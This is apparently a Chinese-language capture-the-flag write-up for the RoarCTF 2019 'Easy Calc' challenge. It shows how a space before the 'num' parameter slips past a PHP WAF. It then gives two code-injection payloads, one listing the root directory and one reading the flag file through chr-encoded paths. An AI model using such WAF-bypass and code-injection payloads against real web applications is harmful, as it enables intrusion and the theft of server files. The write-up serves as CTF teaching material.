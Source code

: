 # [RoarCTF 2019]Easy Calc  
TAG:
## 解题过程：  
![20210108115046](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108115046.png)  
经过表达式的输入可以发现这就是一个简单的计算器，不存在数据库写入，注入的可能性较低，进行页面源码的检查  
![20210108155136](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108155136.png)  
获取信息：  
1. 存在```WAF```
2. 存在```calc.php```文件
访问```calc.php```文件查看，发现代码，进行代码审计  
![20210108155456](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108155456.png)  
  
获取信息：  
1. 荷载参数为num  
2. 存在黑名单过滤  
  
可以利用php的解析特性来进行WAF绕过  
当php进行解析的时候，如果变量前面有空格，会去掉前面的空格再解析，非法字符可以通过这样的操作来绕过  
  


1. 查看目录  
Payload:```? num=1;var_dump(scandir(chr(47)))```  
![20210108155709](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108155709.png)  
2. 取出flag  
Payload:```? num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)));```  
![20210108155835](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108155835.png)  
